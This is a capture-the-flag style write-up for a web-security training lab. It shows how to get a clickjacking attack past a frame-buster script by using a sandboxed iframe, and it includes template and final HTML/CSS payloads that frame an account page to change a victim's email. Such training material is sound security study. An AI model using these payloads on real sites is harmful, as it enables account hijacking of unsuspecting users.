




# Lab description
Lab to perform clickjacking bypassing a frame buster script that prevents the website from being framed.
The lab is the same as the previous clickjacking labs, with the need of bypassing this frame buster script.

# Writeup
The source code of the "Change password" page has this **frame buster script that checks if the windows is rendered as the top one, and if not, the page is not rendered:**

Therefore our previous methods don't work.

To bypass the frame buster script, we need to include a hidden iframe with a `sandbox` attribute set to `allow-forms` . The rest of the writeup is the same, finding the position that matches between the invisible iframe and the dummy button. This is the CSS that is given to us:
```css
<style>
  iframe {
    position: relative;
    width: $width_value;
    height: $height_value;
    opacity: $opacity;
    z-index: 2;
  }

  div {
    position: absolute;
    top: $top_value;
    left: $side_value;
    z-index: 1;
  }
</style>
<div>Test me</div>
<iframe sandbox="allow-forms" src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```
Remember that if we delete the sandbox attribute, the frame buster script is not bypassed and we can't perform clickjacking. Here is an example of what happens without sandbox attribute:


Modifying to match the width, heigth, top value and side value leads us to this overlay:


This is the final CSS:
```css
<style>
    iframe {
        position:relative;
        width:700;
        height: 500;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450;
        left:80;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe sandbox="allow-forms"
src="https://0ae700370308ee8a80bc1258009a000c.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

When uploading it and making the client perform the click, we solve the lab thus bypassing the frame buster script:


